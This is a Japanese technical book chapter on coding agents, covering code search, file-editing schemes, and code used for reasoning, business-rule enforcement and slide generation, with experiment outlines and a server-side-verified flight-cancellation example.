


**正規表現による内容マッチング**（grep/ripgrep）：最も伝統的な検索方式で、ファイル内容を一行ずつスキャンしてパターンマッチングを行います。Agent が探したい具体的なテキスト（関数名、変数名、エラーメッセージ）を知っているとき、出現するすべての箇所を素早く正確に特定できます。正規表現（特殊な記号でテキストパターンを記述する構文。例えば `def handle.*` は `handle` で始まるすべての関数定義にマッチする）の強力な表現力は複雑なパターンを捉えることができ、字面のテキストを検索できるだけでなく、特定の構造に合致するコード片も検索できます。実際の使用ではさらにファイルタイプのフィルタリング（Python ファイルだけを検索）とパスパターンのフィルタリング（テストディレクトリを除外）をサポートしてノイズを減らすべきです。根本的な限界は、テキスト上マッチする内容しか見つけられず、意味を理解できないことです。「ユーザー認証」を検索するとき、「認証」の 2 文字はないが確かにログインのロジックを処理している関数は見つけられません。

**ファイル名パターンマッチング**（glob）：ファイル内容を見ず、ファイルシステムのパス構造の中でパターンに合致するファイルだけを探します。例えば `**/*.test.ts` は再帰的にすべての TypeScript テストファイルを見つけ、`src/components/**/Button.tsx` は components 下の任意の深さで Button.tsx を探します。速度は内容検索よりはるかに速く（ファイルを開いて読む必要がない）、Agent がプロジェクト構造を探索する第一歩です。ファイルシステム全体を素早くスキャンすることでプロジェクトの組織の枠組みを築きます。

**意味コード検索**：前の 2 つの厳密なマッチング手法と異なり、クエリとコードの「意味」を理解しようとします。2 つの鍵となる問題を解決する必要があります。

- **構造を意識した分割**：コードには厳格な構文構造があり、固定文字数で盲目的に切るのではなく、関数、クラス、メソッドなどの完全な意味単位で切り分けるべきです。
- **ハイブリッド検索**（第 3 章でこの技術スタックを詳しく紹介しています）：ベクトル埋め込み（密な埋め込み）は意味は似ているが用語が異なるコードを見つけるのが得意（例えば「ユーザー本人の確認」を検索して `check_credentials` という名の関数を見つける）、キーワードマッチング（BM25、単語頻度と文書長に基づく古典的な検索アルゴリズム）は関数名や変数名の厳密なマッチングが得意です。両者を並列に実行した後、リランキングモデル（reranker、クロスエンコーダで候補結果に対して精細な関連度の順位付けをする）で統合して並べ替え、相補的にカバーします。

意味検索は探索的なタスクにとりわけ適しています。不慣れなコードベースの中で「データベースとやり取りする」や「ユーザー入力の検証を処理する」に関連するコードを探すなどです。

ただし、意味検索のために埋め込みインデックスを構築する価値があるかどうかについては、業界に明確な路線の争いがあります。Claude Code を代表とする端末型 Agent はあえて**埋め込みインデックスを構築せず**、純粋に agentic な grep + glob による現場検索に頼ります。こうすればコードの進化とともに絶えず古びていくインデックスを維持する必要がなく、インデックスのインフラ一式も省け、さらにコードの埋め込みをサードパーティのサービスに送り出すリスクも避けられます。Cursor のような IDE 型ツールは逆の路線を行きます。**ファイルをまたいだ意味的な再現**のためにインデックス構築のコストを払うことをいとわず、埋め込みインデックスに頼って大規模なコードベースの中で意味は関連するが用語が異なる片を素早く見つけます。2 つの路線のトレードオフは、本質的に「インフラとデータ送り出しの代価」と「ファイルをまたいだ意味的再現の便益」との間の秤量です。

**シンボルレベルの定義と参照の検索**：IDE の「定義へジャンプ」「すべての参照を検索」の能力（LSP、すなわち Language Server Protocol、言語サーバープロトコル——エディタと言語解析エンジンが通信するための標準プロトコル）に基づき、同名のシンボルの定義と呼び出しを区別できます。例えば `authenticate` が 42 行目では関数定義、189 行目では呼び出しだと分かりますが、テキスト検索はその文字列を含むすべての行しか見つけられません。コードのリファクタリングにとりわけ重要です。関数のリネームはテキスト検索だけに頼れず（関数名がコメントや文字列の中に現れるかもしれない）、シンボル検索によって定義とすべての真の呼び出し箇所を正確に特定しなければなりません。

この 4 つの検索方式は相補的な道具箱を構成し、実践ではしばしば組み合わせて使われます。まず意味検索で関連するモジュールを見つけ、次に正規表現マッチングで具体的なコード行を正確に特定し、最後にシンボル検索で呼び出し連鎖を追う——「粗から細へ、意味から構文へ」の漸進的な戦略です。

### Coding Agent におけるファイル編集ツール

ファイル編集の難所は操作そのものにあるのではなく、いかに LLM に効率的かつ信頼できる方式で「どこを、どう変えるか」をシステムに伝えさせるかにあります。図5-4 は 5 種類のファイル編集方案を対比し、人間の言語表現と機械の正確な実行との間の根本的な張力を示します。




**差分記述 + Apply Model**：モデルはファイルをどう編集するかを直接指定するのではなく、変更の記述を生成します。git diff（すなわち `git diff` コマンドが出力する「どの行を削り、どの行を加えたか」という形式）のような差分テキストでもよく、省略マーカー付きのコード骨格（「ここは変更なし」といったコメントで未修正部分を飛ばす）でもよいのです。この記述はその後、専門の「適用モデル」（Apply Model）——通常はもう一つのより小さく速い LLM——に渡され、元のファイルとマージして完全な新しいファイルを産み出す役割を担います。この関心の分離の設計は、メインモデルを高レベルのコードロジックに、適用モデルを低レベルのテキスト操作に専念させます。素朴な実装の脆弱性はマージの部分にあります。変更記述とファイルの実際のコードに微小な食い違いがあるとき同じ位置かどうかを判断する必要があり、類似したコード片が複数存在すると誤った場所にマージしかねません。Cursor はこの路線を継続的に進化させた代表です。メインモデルが省略マーカー付きのコード骨格を出力し、専門に訓練された fast-apply 小モデルが完全なファイルに書き直し、投機的デコーディング（speculative decoding、元のファイルの内容を下書きとして並列に検証する）の助けを借りてマージ速度を毎秒数千トークンにまで引き上げます。エンジニアリングの投資でこの路線の信頼性と速度を勝ち取ったのです。

**旧文字列から新文字列へ**（Old String → New String）：Claude Code が採用する方案です。モデルが old string（置き換えられる元の文）と new string（置き換え後の新しいテキスト）を提供し、フレームワークが単純な文字列の検索置換を実行します。優位性は予測可能性と透明性です。old string がファイルに存在しかつ一意なら成功、さもなくば失敗で、曖昧さは存在しません。代価は、大きなコードのブロックを削除するときにすべての元の内容を完全に出力する必要があり、一文字のずれでもマッチに失敗すること、同じコードが複数回現れるときは曖昧さを解消するためにより長いコンテキストを提供する必要があることです。

**行番号による特定**（Old Line Numbers → New String）：モデルが「X 行目から Y 行目を削除し、新しい内容を挿入する」と指定します。行番号は正確で曖昧さがなく、大きなブロックの削除も 2 つの数字で済みます。しかしモデルが行番号を「数える」のは間違いやすく、とりわけファイルが長いときはそうです。実践では通常、ファイルを読むときに各行に行番号の標注を付けて緩和しますが、編集のたびに後続の行番号が変わってしまい、これが複数箇所の編集の並列性を制限します。

**Vim 風の編集コマンド**：Vim エディタのコマンド体系を参考にし、コピー、カット、ペーストなどの豊富な操作をサポートします。コードの再構成（関数をある箇所から別の箇所へ移動する）にきわめて効率的です。しかしコマンド構文の学習負担が比較的大きく、最も強力なモデルはうまく使えますが、より小さなモデルはエラー率が明らかに上がります。

**文字列の先頭末尾マッチング**（Old String Start + End → New String）：旧文字列置換方案の改良と見なせます。モデルは完全な old string を出力する必要がなく、削除したい内容の先頭の数行と末尾の数行を提供するだけでよく、中間部分は省略できます。フレームワークはこの先頭と末尾をマッチングして置換領域を特定し、この「先頭末尾」の組み合わせがファイル内で一意でありさえすれば正確に特定できます。この方案はテキスト置換の信頼性と行番号方案の効率を総合したものです。大きなコードのブロックの削除を処理するときに数百行の元のコードを出力する必要がなく、境界を示すだけで済みます。同時に、依然として抽象的な行番号ではなく内容のマッチングに基づくため、モデルが間違えるリスクは比較的低いのです。

**実践的な助言**。総合すると、主流の Coding Agent は 2 つの路線でそれぞれ代表を持ちます。Claude Code は「旧文字列から新文字列へ」方案を採用——信頼性優先、実装が単純、追加のモデル不要。Cursor は Apply Model 路線を極限まで突き詰めました——専用の fast-apply モデルの訓練と推論の投資で、より高い編集スループットを勝ち取ったのです。自作の Agent にとっては、「旧文字列から新文字列へ」が最も無難な出発点です。大きなブロックの変更を処理するときは「文字列の先頭末尾マッチング」がより経済的な折衷であり、行番号方案は IDE の深い統合（エディタが行番号のマッピングをリアルタイムに維持し、編集のたびに直ちにモデルに供給し直せる）の場面でのみ信頼性を備え、さもなくば行番号のずれで失効しやすいのです。

## コード：汎用 Agent のメタ能力

前の部分では、信頼できる Coding Agent をどう構築するか——アーキテクチャ設計からツール実装、そして Harness 工程まで——を示しました。しかしコード生成の価値は、プログラムを書くことにとどまりません。

> **「メタ能力」とは何か。** 普通の能力とは、Agent がある具体的なことをできること——質問に答える、ある API を呼ぶ、一段の文章を生成する——です。**メタ能力**（meta-capability）とは「他の能力を創り出せる」能力です。Agent はそれを使ってその場で新しいツール、新しい制約、新しい表現形式を書き出してタスクを完成させ、あらかじめすべての能力を作り込んでおく必要がありません。コード生成はまさにこうしたメタ能力です。正確で、実行可能で、組み合わせ可能であるため、新しいツール（スクリプト、API 呼び出しのシーケンス）を産み出せるだけでなく、新しい制約（アサーション、検証ルール）も産み出せ、さらに新しい表現形態（HTML フォーム、PPT、ビデオフレーム）も産み出せます。

まさにこのため、コードが Agent の体系で演じる役割は「プログラムを書く」をはるかに超えます。続く 6 節では、このメタ能力がプログラミング以外で発揮される 6 つの方向をそれぞれ示します。(1) 思考ツール——コードで自然言語に代えて厳密に推論する。(2) 業務ルールの制約——コードで政策を固めモデルのハルシネーションを避ける。(3) マルチメディア生成——コードで PPT/ビデオ/可視化を生成する。(4) システムアダプタ——コードで異種の API をつなぐ。(5) 生成的 UI——コードで動的にフォームとインターフェースを生成する。(6) 自己ブートストラップ——コードで新しい Agent を創り出す。

この 6 つの方向は平行に並べたものではなく、「メタ能力の作用対象」によって内から外へと組織されています。

1. **思考そのもの**——間違えやすい自然言語推論をコードで代替する（思考ツール）
2. **業務ルール**——曖昧な政策を実行可能な制約へとエンコードする（業務ルールの制約）
3. **コンテンツの呈示**——PPT、ビデオと可視化の成果物を生成する（マルチメディア生成）
4. **システムインターフェース**——異種の API を橋渡しし、データ形式の進化に自動で適応する（システムアダプタ）
5. **ユーザーインターフェース**——フォームとインタラクティブなインターフェースを動的に構築する（生成的 UI）
6. **Agent 自身**——コードで新しい Agent を創り出し、自己ブートストラップを形成する（第 8 章の権限を変えない「自己進化」とは区別する）

この「内から外へ、最終的に自身に戻る」という脈絡に沿って読めば、メタ能力としてのコードの統一された価値をより明瞭に見て取れます。必要に応じて新しいツールを創り出すことは、このメタ能力のさらなる延伸であり、第 8 章で展開します。

### 思考ツールとしてのコード

LLM は自然言語の理解と生成では驚くべき性能を示しますが、正確な計算、記号操作、厳密な論理導出には根本的な短所があります。原因はこうです。モデルの思考は本質的に確率的で、近似的です。一方、数学と論理の問題は確定的で正確な答えを要求します。一つの具体的な対比で説明しましょう。

```
問題："あるクラスに 40 名の学生がいて、そのうち 60% が数学を、45% が物理を、25% が両方を選択した。
      物理だけを選び数学を選ばなかったのは何人か？"

純自然言語推論（間違えやすい）：            コード推論（正確で検証可能）：
"60%が数学 = 24人、                   math = int(40 * 0.60)    # 24
 45%が物理 = 18人、                   phys = int(40 * 0.45)    # 18
 25%が両方 = 10人、                   both = int(40 * 0.25)    # 10
 物理だけ = 24 - 10 = 14人"           only_phys = phys - both  # 8
→ 誤って数学の人数から引き、答えが誤り      → print(only_phys)  # 8 ✓
```

LLM に問題を理解しコードを書き出す役割を、コードインタープリタに正確な計算の役割を担わせる——この分業が両者にそれぞれの持ち場を得させます。

Mathematica の創始者 Stephen Wolfram はこれについて深い洞察を提出しました。LLM が現れる前から、正確な数学計算ができる一類のシステムがすでに存在していました。それらは**記号計算**（Symbolic Computation）という方式で動作します。すなわち近似的な数値ではなく数学記号で式を処理するのです。例えば、普通の電卓は $\sqrt{2}$ を 1.414 と計算しますが、記号計算システムは $\sqrt{2}$ の正確な形を保ち、必要なときにだけ小数に変換します。Wolfram が作った Wolfram Alpha はまさにこうしたシステムで、ユーザーが数学の問題を入力すると正確な答えを返します。しかしその自然言語理解は相当に脆く、カバー範囲も狭いのです。内蔵の一式の構文解析に依存しており、認識できる問い方は限られ、問い方を少し変えるだけで解析に失敗し得て、まして開放領域の多段階推論は処理できません。LLM はちょうどこの短所を補います。各種の自然言語表現を理解するのは得意ですが、正確な計算は不得意です。新しい協働モードはこうです。LLM に、ユーザーの自然言語の問題を理解させ、その中の数学的または論理的構造を識別させ、形式化された言語（Mathematica 言語や Python の SymPy ライブラリなど）に変換させます。そのうえで専門の記号計算エンジンまたは制約ソルバーに渡して実行し、正確な結果を得るのです。

> **実験 5-1 ★★：コード生成ツールを使って数学の解答能力を高める**
>
> **実験目標**：Agent が Code Interpreter によって数学的思考を補助し、正確性が向上することを検証する。
>
> **技術方案**：Agent に、sympy、numpy、scipy などの数学ライブラリをインストールした Python サンドボックスを装備させる。Agent は数学の問題に出くわしたとき、それを Python コードに形式化する。sympy は記号計算（微積分、方程式の求解）を、scipy は数値最適化を、numpy は行列演算を行う。生成されたコードはサンドボックスで実行され正確な結果を返す。
>
> **受け入れ基準**：AIME 風の問題（全米数学招待試験に対標）で評価する。純粋な思考連鎖思考とコード補助思考の正解率を対比し、コード補助モードが著しく高いことを要求する。コードが数学ライブラリを正しく使っているか、求解の過程が論理的に明晰かをチェックする。
>

> **実験 5-2 ★★：コード生成ツールを使って論理思考能力を高める**
>
> **実験目標**：Agent が制約求解コードによって論理思考を補助する能力を評価する。
>
> **技術方案**：Agent に、python-constraint ライブラリを含む Code Interpreter を装備させる。Agent は論理パズル（騎士と悪党の問題など）を形式化された制約定義に変換する。すべての変数（各島民の身分）と制約条件（「騎士は本当のことを言う」などの推論）を識別し、制約を定義してソルバーを呼び出し、すべての制約を満たす解を探索する。
>
> **受け入れ基準**：[K&K Puzzle データセット](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves) で評価し、コード補助モードの求解正解率が 90% 以上に達し、純粋な思考モードより著しく高いこと。
>

この実験はさらに、より普遍的な法則を明らかにします。モデルと足場（harness）の間は、一方が増えれば他方が減るという関係にあるのです。モデルが十分に強いとき、足場はより薄くできます。モデル自身が論理を正しく考えられ、コードソルバーがもたらす利得はそれに応じて狭まります。モデルが十分に強くないとき、足場の中でより多くのことをしなければなりません。鍵となる論理推論をコードと制約ソルバーに委ねて正しさを担保させるのです。まさにこのため、本実験はあえて能力の弱いモデルを選んでこの対照を拡大しています。より弱いモデルでは、純粋な思考モードは頻繁に計算を誤り、コード補助が正解率を著しく引き上げます。一方、十分に強い推論モデルに換えると、純粋な思考でしばしばすべてのパズルを解けてしまい、コード補助の利得はほぼゼロに収束します。だから足場をどれだけ厚くすべきかは、手元のモデルの能力の境界によります。これもまた、ある Agent 技術を評価するときに見落とされやすい前提です。同じ一式の足場でも、異なる能力のモデルを組み合わせれば、得られる結論はまったく異なり得るのです。

### 業務ルールの制約としてのコード

この節は、前述の Harness 工程への直接の応答です。Harness の核心原則の一つは「制約：文書化ではなくコード化」です。ルールを自然言語の文書から実行可能なコードへと転化し、それをシステムの振る舞いに対する助言的な指針ではなく強制的な制約とするのです。コード生成が、Agent にこの転化の過程を自律的に完成させます。

業務ルール、業務の手順、意思決定のロジックは、自然言語だけで記述すると往々にして曖昧さに満ちます。「合理的な返金請求」とは何か。「緊急事態」とは何を指すのか。これらの概念の境界は自然言語では画定しづらいのです。「購入後 7 日以内に返金可能」は一見明確ですが、「7 日」は暦日か営業日か。「購入」は注文時か発送時か。それに対して、コードは曖昧さのない、実行可能な知識の表現方式を提供します。うまく走るか、エラーを送出するか、どちらかであり、曖昧さは存在しません。

**複雑な業務ルールを正確に表現する。**

**自然言語ルール vs コード化ルール：代替ではなく相補**

ルールをシステムプロンプトに書く優位性：モデルはルールに基づいてユーザーに**政策を説明**できる。ルールに基づいて**回避策を探す**ことができる（「キャンセルではなく変更」など）。ツールを呼ぶ前に実現可能性を初歩的に判断できる。

ルールを検証ツールにコード化する優位性：コードロジックの**正確性と曖昧さのなさ**——「理解のずれ」が生じない。コード実行の**確定性**——同じ入力は必ず同じ出力を生む。とりわけ**複雑なルールの組み合わせ**——多条件のブール組み合わせ、時間の計算、データソースをまたいだ検証——に適する。

実践では組み合わせて使うべきです。システムプロンプトには理解とコミュニケーションのために自然言語ルールを含め、鍵となる意思決定点にはコンプライアンスを担保する「門番」としてコード化された検証ツールを配備します。

コード化されたルールの真の価値は、token 効率の最適化にあるのではなく、**不可逆的な誤操作の防止**にあります。注文のキャンセル、資金の送金、データの削除——これらの操作はひとたび実行すれば取り消せません。コード化された検証が操作の前に最後の防衛線を設けます。この安全保障の価値は、その実装コストをはるかに上回ります。

**検証と実行の統合：checklist が思考を導き、真値検証が門番を務める**

独立した検証ツールを設計するより、実行ツールの内部でまず検証させるほうがよいのです。τ-bench（tau-bench、航空・EC のカスタマーサポートの場面を模擬し、Agent のツール呼び出しと政策遵守の能力を専門に評価するベンチマーク）の航空会社のキャンセル政策を例にとります。

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # 可选：模型自查用，服务端以数据库真值复核
    expected_has_insurance: bool = None  # 可选：模型自查用，同上
) -> dict:
    """
    取消航班预订。

    取消政策（服务端根据数据库真值强制执行）：
    - 规则 1: 已使用任何航段的订单不可取消
    - 规则 2: 预订后 24 小时内可无条件取消
    - 规则 3: 航空公司取消的航班总可取消
    - 规则 4: 商务舱总可取消
    - 规则 5: 基础经济舱和经济舱需购买旅行保险才可取消

    调用前请先查询订单详情，逐条核对上述政策；expected_* 参数用于
    陈述你的判断依据，仅供服务端比对与审计，不影响政策裁决。
    """
    # 所有政策事实一律从数据库读取，绝不采信模型自报的值
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # 服务端时钟，而非模型提供

    # 模型自报值与真值不一致时记录告警，用于发现模型的错误认知或潜在注入
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

この設計の価値は 2 つの層に分けて見る必要があります。

**第一層：思考の checklist としての引数**。ツールの記述にはキャンセル政策の全体が列挙され、モデルに「呼び出す前にまず注文の詳細を照会し、一条ずつ照合する」ことを要求しています。オプションの `expected_*` 引数はさらに、モデルに自らの判断の根拠を明示的に書き出させるよう促します。これらの引数を埋めるために、モデルはまず照会ツールを呼んで注文の詳細を取得し、各条件を一つずつ確認しなければなりません。引数を埋める過程は本質的に一つの**強制的な checklist** なのです。モデルが座席が経済クラスで保険未加入だと照会したとき、呼び出しの準備の過程でおそらく規則 5 に気づき、そのため**そもそも呼び出しを起こさず**、直接ユーザーに「経済クラスで保険未加入のためキャンセルできません。保険を購入してからキャンセルするか、変更をご検討ください」と伝えるでしょう。この層の価値は思考を導き、無効な呼び出しを減らすことにあります。ただしそれは安全の責任を負いません。`expected_*` 引数はモデルの自己陳述にすぎず、サーバー側はそれを決して事実とはみなしません。

**第二層：サーバー側の真値検証こそが門番**。コード中の鍵となる設計に注意してください。座席等級、保険の状態、予約時刻、航空区間の使用状況、フライトの状態は、すべてサーバー側がデータベースを照会して得ます。現在時刻はサーバー側の時計から来ます。**いかなる政策事実もモデルが自己申告した引数から来ることはありません**。これは余計な慎重さではありません。モデルはハルシネーションを起こし得て、プロンプトインジェクションに操られ得ます。前述の「致命的な三要素」で分析したとおり、同一コンテキスト内の Agent は自らの潔白を証明しづらいのです。もし `cabin_class`、`has_insurance`、ひいては `current_time` をモデルが埋める引数として設計したら、モデルが一つの値を誤って報告する（あるいは誘導されて誤報する）だけで、「門番」は有名無実になります。最後の防衛線は、モデルが偽造できないデータの上に築かねばなりません。これは前述の「鍵となる操作は独立した検証を必要とする」という立場と一脈相通じます。独立性とは独立したモデルだけを指すのではなく、より一層、独立したデータソースを指すのです。

三重の保障がこうして完成します。(1) システムプロンプトの自然言語ルールが理解と説明を助ける。(2) ツールの記述と引数の設計が checklist として、モデルが呼び出す前に条件を明示的に照合するよう導く。(3) サーバー側がデータベースの真値に基づいて行うコード化された検証が最後の門番を務める。前の二重がエラーの発生を減らし、第三重がエラーを不可逆的な損失に変えないことを担保します。

> **実験 5-3 ★★：小モデルがコード化された知識を通じてルール執行の正確性を高める**
>
> **実験目標**：小パラメータ量のモデル（Qwen3-4B）がコード化された業務ルールを通じて、複雑な政策執行の正確性と一貫性を著しく高めることを検証する。
>
> **技術方案**：τ-bench 航空カスタマーサポート場面に基づいて対照実験を設計する。**対照群**：純粋な自然言語ルール、モデル自身の思考に依存する。**実験群**：三重の保障——システムプロンプトに自然言語ルールを残す。ツールの記述に政策の全体を列挙し、オプションの `expected_*` 引数でモデルが呼び出す前に一条ずつ照合するよう導く（checklist）。ツール内部で模擬データベースの真値に基づくコード化された検証（政策事実は一律に照会して取得し、時刻はサーバー側の時計を取り、モデルの自己申告引数を採用しない）。評価指標：タスク成功率、政策違反回数、無効なツール呼び出し回数、ユーザー体験。
>
> **予想結果**：実験群が対照群より著しく優れる。さらに重要なのは、モデルが引数を準備する段階で自律的に違反操作を識別し、直接ユーザーに代替案を提案する様子を観察し、「checklist としての引数」の有効性を検証すること。同時に `expected_*` の自己申告値とデータベースの真値が一致しない比率を統計し、「サーバー側の真値検証」が誤った認知を遮る必要性を検証すること。
>

### コード駆動のマルチメディア生成

多くの複雑な文書の創作は、本質的に構造化されたデータの組織と呈示です。プレゼンテーションであれ、技術レポートであれ、インタラクティブなアプリケーションであれ、その底層はいずれもコードで定義されています。HTML が構造を記述し、CSS がスタイルを制御し、JavaScript がインタラクションを実現します。従来の文書創作は GUI インターフェースの WYSIWYG 編集に依存しますが、Agent にとっては直感的でも効率的でもありません。GUI 操作は視覚的な理解と正確な座標の特定を必要とするからです。コード生成を通じて、Agent は視覚的な位置特定の難題を回避し、文書に対する正確な制御能力を得ます。各要素の位置、スタイル、内容がすべて明確に定義され、プログラム的な方式で修正・最適化できるのです。

**PPT 生成 Agent。**

PPT の創作は往々にして時間と手間がかかります。典型的な学術報告の PPT は数十ページのスライドを含み得て、各ページがレイアウトの入念な設計、要点の抽出、図表の選定を必要とします。もし PPT の創作をコード生成の問題として捉え直せば、複雑さを大幅に簡略化できます。現代の PPT フレームワーク（Slidev など）は優雅な設計哲学を採っています。Markdown と HTML でプレゼンテーションの内容を定義するのです。1 ページのスライドを作るには簡潔なマークアップ言語を書くだけでよく、フレームワークがレンダリング、レイアウト、アニメーションを自動で処理します。コード生成能力を身につけた Agent にきわめて優しいのです。




コードを生成できるだけでは不十分です。**Agent はコードを書き終えても実際のレンダリング結果を知りません**。内容が詰まりすぎていないか、文字が溢れていないか、画像のサイズが適切か、これらは本当にレンダリングして初めて分かります。したがって**提案者・審査者**（Proposer-Reviewer）機構（図5-5 に示す）を導入し、コードの記述と品質の審査を 2 つの独立した Agent に分離する必要があります。

- **Proposer Agent** は Slidev コードの生成を担い、内容の論理構造を理解して合理的なページに分解する
- **Reviewer Agent** はコードを実行して各ページを画像にレンダリングし、Vision LLM（画像を「見て」理解できるマルチモーダル大規模モデル）で内容密度、可読性、レイアウトの合理性、視覚的な美しさなどの次元からレンダリング結果を分析し、**構造化された改善提案**を生成する——曖昧な「格好悪い」ではなく、具体的で実行可能な指導（「3 ページ目：内容が多すぎるので分割を推奨」「7 ページ目：コードブロックのフォントが小さすぎるので 14pt に拡大を推奨」など）であり、ページ番号、問題の種類、深刻度などのフィールドを含む

Proposer はフィードバックを受け取ると意図を理解してコードを修正し、新しいバージョンを再び Reviewer に提出して審査し、品質が基準に達するか最大回数（5 ラウンドなど）に達するまでイテレーションします。「品質が基準に達する」と「最大ラウンド数」こそ、Loop 工程が要求する 2 種類の明示的な終了条件です。前者は審査者が目標の達成を判定し、後者は予算の上限でループの暴走を防ぎます。

本章の提案者・審査者のイテレーションループは、第 4 章の**事前承認**の応用と同源です。いずれも提案者・審査者パラダイムの実例です。生成と審査の分離、二重モデルの独立評価（Loop 工程の言葉で言えば「製造者」と「検証者」を分離したサブ Agent）です。差異は目標と形態にあります。第 4 章はそれを不可逆的な操作の安全審査に用い、審査者が単一の操作に対して承認か否認を下します。本章はそれを内容品質のイテレーション改善に用います——複数ラウンドのループであり、しかも審査者は提案者が見られない新しい情報（レンダリング結果）に接します。核心的な設計原則は一脈相通じます（共有された目標の制約、異なるモデルファミリーの使用で同類のエラーの確率を下げる、フィードバックを特殊なイベントとして Proposer の軌跡に加える）。単一 Agent のループではなく二重 Agent の分業を採る**核心的な優位性はコンテキスト管理にあります**。Reviewer は毎回最新バージョンのレンダリング画像だけを処理し、履歴バージョンに邪魔されません。Proposer は構造化されたテキストフィードバックだけを累積し、token 消費が少なく推論しやすいのです。単一 Agent 方案では、同一のコンテキストの中で数十ページのレンダリング画像の複数ラウンドのイテレーションを累積する必要があり、コンテキストが急速に上限を超えます。この機構は後続のビデオ編集とログ可視化の実験で繰り返し使われます。第 10 章では提案者・審査者以外の他のマルチ Agent 協調モードをさらに探ります。

> **実験 5-4 ★★：論文に基づく PPT の自動生成**
>
> **実験目標**：学術論文から高品質なプレゼンテーションを自動生成し、提案者・審査者機構が内容創作の品質管理において有効であることを検証する。
>
